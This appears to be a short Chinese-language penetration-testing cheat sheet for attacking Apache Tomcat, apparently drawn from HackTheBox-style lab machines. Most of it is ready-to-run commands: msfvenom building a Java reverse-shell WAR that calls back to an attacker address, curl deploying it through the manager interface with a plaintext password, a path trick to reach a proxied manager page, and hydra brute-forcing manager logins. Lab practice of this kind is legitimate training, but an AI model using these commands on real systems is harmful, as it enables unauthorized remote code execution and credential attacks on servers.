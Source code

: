 # tomcat

1. 通用方法

```bash
/opt/tomcat/conf/tomcat-users.xml
存在凭据

如果没找到
本机已经安装tomcat，直接搜索，会有另外的文件
find / -name tomcat-users.xml

两个默认页面
/host-manager/html
以及
/manager
```

1. **/host-manager/html**

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.29 lport=8888 -f war -o shell.war

curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.129.18.17:8080/manager/text/deploy?path=/rong --upload-file shell.war  

curl http://10.129.18.17:8080/rong  
```

‍

1. /manager

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.29 lport=8888 -f war -o shell.war
```

1. tomcat的管理页面被代理走

​![在这里插入图片描述](https://img-blog.csdnimg.cn/bec8b22ae08e43b0af4b4fec8132ee90.png)​

```bash
https://seal.htb/manager;name=rong/html
就可以访问到被代理的tomcat
```

1. 爆破

```bash
hydra -C ./Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.129.8.70:8080/manager/html 
```
